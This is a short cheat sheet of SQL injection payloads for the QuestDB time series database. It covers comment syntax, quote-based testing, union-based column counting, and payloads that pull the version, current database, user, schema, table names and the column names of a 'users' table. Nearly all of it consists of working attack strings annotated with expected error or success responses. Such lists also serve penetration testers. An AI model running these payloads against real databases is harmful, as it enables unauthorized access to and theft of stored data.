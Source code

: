 # QuestDB Injection (time series database):

#### add by Meisam Monsef 

## Comments:

    --comment (No space is needed)
    /*comment*/

## Testing Injection : 
        '
        1'  #  get error unclosed quoted string?

## Union Based:

        1' order by 100--                             #order column position is out of range [max=8]
        1' order by 8--                               #no error 
        1' union SELECT 1--                           #queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #error queries have different number of columns
        1' union SELECT 1,2,3,4,5,6,7,8--             #error unsupported cast [column=8, from=INT, to=TIMESTAMP]
        1' union SELECT 1,2,3,4,5,6,7,null--          #success

## Version:

         1' union SELECT build(),2,3,4,5,6,7,null--'
         
## Get the current database:

         1' union SELECT current_database(),2,3,4,5,6,7,null--'

## Get the current user:

         1' union SELECT current_user(),2,3,4,5,6,7,null--'

## Get the current schema:

         1' union SELECT current_schema(),2,3,4,5,6,7,null--'

## Get All Tables:

        1' union SELECT table_name,2,3,4,5,6,7,null from tables()--'        #get all none WAL tables
        1' union SELECT table_name,2,3,4,5,6,7,null from all_tables()--'    #get all none WAL tables
        1' union SELECT name,2,3,4,5,6,7,null from wal_tables()--'          #get all WAL tables

## Get columns name for table:

        1' union SELECT column,2,3,4,5,6,7,null from table_columns('users')--'                   #get error table and column names that are SQL keywords
        1' union SELECT "column",2,3,4,5,6,7,null from table_columns('users')--'                 #success
        1' union SELECT string_agg("column",','),2,3,4,5,6,7,null from table_columns('users')--' #get all columns name
